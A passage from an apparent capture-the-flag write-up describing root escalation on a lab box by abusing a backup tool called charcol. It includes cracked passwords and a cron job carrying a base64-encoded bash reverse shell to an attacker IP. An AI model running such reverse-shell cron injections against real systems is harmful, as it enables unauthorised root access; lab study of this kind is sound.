
mark | supersmash
web | spiderweb1234
After grabbing the /etc/passwd file earlier, I took notice of the users who had a shell on the box. One of the users I noticed was mark, so I'll try to SSH as him into the box.

This fails because password authentication for SSH is disabled on Imagery. I can su into Mark from my web shell, so this is not a problem.

Root flag
I wanted to inject an SSH key into Mark's authorized_keys directory, but that did not bring success.

I'll just keep using my revshell then.
Charcol Exploitation

Mark can run charcol as root. I'll run it to see what it is, as I've never seen it before.

Right away, I can see the shell flag. Using this flag prompts for a master passphrase.

It can be reset with the -R flag, which requires the system password(which I have for Mark).

Now I'll rerun charcol, choosing the no password mode for convenience.

Success! I am now in the charcol interactive shell.
Abusing Charcol For Root Code Execution
There are at least 2 commands I can use for potential escalation. One of them is Fetch
fetch <url> [-o <output_file>] [-p <file_password>] [-f] [--ask-password]
Purpose: Download a file from a URL, encrypt it, and save it.
Output: File will have a '.aes' extension if encrypted. Defaults to '/var/backup/fetched_file'.
Permissions: Files created with 664 permissions. Ownership is current user:group.
Restrictions: Fetching from loopback addresses (e.g., localhost, 127.0.0.1) is blocked.
Encryption:
- If '--app-password' is set (status 1) and no '-p <file_password>' is given, uses the application password for encryption.
- If 'no password' mode is set (status 2) and no '-p <file_password>' is given, creates an UNENCRYPTED file.
Examples:
- Encrypted:
fetch <URL> -o <output_file_path> -p <file_password> --force
- Unencrypted (if status 2 and no -p):
fetch <URL> -o <output_file_path>
With this, I can overwrite files on the box with my local ones. It can be any file, with the exception of the /root directory, /etc/shadow, and probably a bunch of other files. This is what I initially tried with overwriting the crontab. However, while I managed to do so, the command was not executed.

The other command is auto add, allowing me to add cronjobs managed by charcol.
Automated Jobs (Cron):
auto add --schedule "<cron_schedule>" --command "<shell_command>" --name "<job_name>" [--log-output <log_file>]
Purpose: Add a new automated cron job managed by Charcol.
Verification:
- If '--app-password' is set (status 1): Requires Charcol application password (via global --app-password flag).
- If 'no password' mode is set (status 2): Requires system password verification (in interactive shell).
Security Warning: Charcol does NOT validate the safety of the --command. Use absolute paths.
Examples:
- Status 1 (encrypted app password), cron:
CHARCOL_NON_INTERACTIVE=true charcol --app-password <app_password> auto add \
--schedule "0 2 * * *" --command "charcol backup -i /home/user/docs -p <file_password>" \
--name "Daily Docs Backup" --log-output <log_file_path>
- Status 2 (no app password), cron, unencrypted backup:
CHARCOL_NON_INTERACTIVE=true charcol auto add \
--schedule "0 2 * * *" --command "charcol backup -i /home/user/docs" \
--name "Daily Docs Backup" --log-output <log_file_path>
- Status 2 (no app password), interactive:
auto add --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs" \
--name "Daily Docs Backup" --log-output <log_file_path>
(will prompt for system password)
auto add --schedule "* * * * *" --command 'echo "YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuOTIvOTAwMiAwPiYxJwo=" | base64 -d | bash' --name legit
This will be my malicious cronjob.

And after a while, I got a hit on my listener.

Rooted!